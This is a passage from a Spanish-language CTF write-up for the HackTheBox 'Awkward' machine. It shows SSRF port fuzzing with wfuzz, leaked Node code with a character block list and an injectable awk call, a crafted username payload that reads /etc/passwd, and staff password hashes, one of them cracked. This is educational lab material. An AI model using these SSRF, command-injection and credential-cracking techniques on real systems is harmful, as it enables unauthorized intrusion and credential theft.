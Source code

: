 ```console
└─$ wfuzz -t 200 --hh=0 -z range,0000-9999 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"'
000000081:   200        8 L      13 W       132 Ch      "0080"
000003003:   200        685 L    5834 W     77002 Ch    "3002"
000008081:   200        54 L     163 W      2881 Ch     "8080"
```

La web del puerto 80 es la de hat-valley. La del 8080 tiene el mismo codigo js. Lo interesante es la del puerto 3002 Como el codigo es muy largo 
lo ideal es volcarlo en un index.html y verlo haciendo un servidor en el localhost.
```console
└─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:3002"' > index.html;
```
![akward3](https://user-images.githubusercontent.com/96772264/221432830-feb2b8a7-e58c-44cc-aac4-31a980c9207b.PNG)

De entre todo el codigo encontramos:
```
app.get('/api/all-leave', (req, res) => {
    const user_token = req.cookies.token
    if(user_token) { const decodedToken = jwt.verify(user_token, TOKEN_SECRET)
    if { user = decodedToken.username }}
    const bad = [";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"]
    const badInUser = bad.some(char => user.includes(char));
    if(badInUser) { return res.status(500).send("Bad character detected.") } else {
        exec("awk '/" + user + "/' /var/www/private/leave_requests.csv"...
```

Segun esto la cookie tiene el campo username y de ahi saca el usaurio y se lo pasa al comando awk de bash.
Pero pasa evitar "SO command inyection" filtra caracteres especiales como la ";" AWK es un comando para filtrar cosas en un archivo.

```console
└─$ echo "cucuxii123 456" > prueba # Prueba equivale al "/var/www/private/leave_requests.csv"
└─$ awk '/cucuxii/' ./prueba   # -> cucuxii123 456
└─$ awk /etc/passwd ./prueba # cucuxii123 456
└─$ awk // cucuxii ./prueba  # No existe el archivo "cucuxii"
└─$ awk /etc/passwd ./prueba   # queda como "awk '//etc/passwd/' ./prueba" -> error

# Hay que quitar las dos comas que nos pone al principio y final con los "'"
└─$ awk '/' /etc/passwd '/' ./prueba # -> error
└─$ awk '//' /etc/passwd '/' ./prueba  # -> todo el /etc/passwd
```
Por tanto el username tiene que ser ```/' /etc/passwd '``` Pero sin el secreto no podemos crear cookies.

--------------------------------------------
## Part 4: Consiguiendo la llave la cookie

```console
└─$ curl -s 'http://hat-valley.htb/api/staff-details' | jq 
  { "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",},
  { "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",},
  { "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",},
  { "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",}
```
Los pasamos al crackstation (sha256)
Solo conseguimos romper el de Crhis Jones  ("e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",)
Que queda en "chris123"
